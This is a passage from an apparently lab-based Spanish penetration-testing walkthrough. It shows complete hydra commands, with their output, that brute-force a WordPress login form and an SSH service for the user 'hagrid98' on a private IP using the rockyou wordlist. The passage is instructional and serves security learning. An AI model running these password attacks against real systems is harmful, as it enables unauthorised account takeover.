 Esa data que representa al login, la usaremos dentro de **hydra** para que entienda que es ahí donde aplicará la fuerza bruta.

Ya solamente le indicaríamos el usuario, el wordlist que va a usar, la IP, el tipo de petición (en este caso **POST**), la data y le debemos agregar al final que solo considere las redirecciones como intentos exitosos (**código de estado 302** para redirecciones, lo que ocurre cuando pasamos un login):
```bash
hydra -l hagrid98 -P /usr/share/wordlists/rockyou.txt 192.168.1.005 http-post-form "/blog/wp-login.php:log=hagrid98&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.005%2Fblog%2Fwp-admin%2F&in%2F&testcookie=1:S=302"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-06 15:59:34
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.1.005:80/blog/wp-login.php:log=hagrid98&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.005%2Fblog%2Fwp-admin%2F&testcookie=1:S=302
[80][http-post-form] host: 192.168.1.005   login: hagrid98   password: ....
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-06 16:00:04
```
Excelente, obtuvo la contraseña de **hagrid98**.

De igual forma, podemos aplicar al **servicio SSH**; solamente le indicamos al final el tipo de servicio al que va el ataque:
```bash
hydra -l hagrid98 -P /usr/share/wordlists/rockyou.txt 192.168.1.005 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-06 16:02:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.005:22/
[STATUS] 238.00 tries/min, 238 tries in 00:01h, 14344163 to do in 1004:30h, 14 active
[STATUS] 222.67 tries/min, 668 tries in 00:03h, 14343733 to do in 1073:38h, 14 active
[22][ssh] host: 192.168.1.005   login: hagrid98   password: ....
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-06 16:09:05
```
Una vez más, obtuvo la contraseña del **usuario hagrid98**.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>
